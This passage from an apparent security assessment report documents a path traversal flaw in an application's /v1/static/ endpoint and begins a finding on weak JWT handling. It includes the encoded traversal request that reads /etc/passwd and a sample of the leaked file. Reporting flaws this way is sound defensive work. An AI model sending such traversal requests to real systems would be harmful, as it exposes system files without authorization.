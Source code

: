     lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    mongodb:x:113:117::/var/lib/mongodb:/usr/sbin/nologin
    fwupd-refresh:x:114:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
    ```

![etc-passwd-file](Evidence/etc-passwd-file.png)

##### Steps to reproduce
To reproduce the vulnerability, one has to perform the following steps.

1. Send the following HTTP request to the `/v1/static/` path:
    ```json
    GET /v1/static/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
    Host: [TARGET_IP]:3000
    ```
2. Review the response, which will display the contents of the /etc/passwd file.



#### Improper JWT Handling and Token Management

##### Description
The application’s handling of JSON Web Tokens (JWTs) has several critical flaws related to token secret management, expiration, and reuse, potentially allowing unauthorized access or persistent sessions. These issues undermine session security and could be exploited to escalate privileges, impersonate users, or maintain access indefinitely.

##### Severity
High
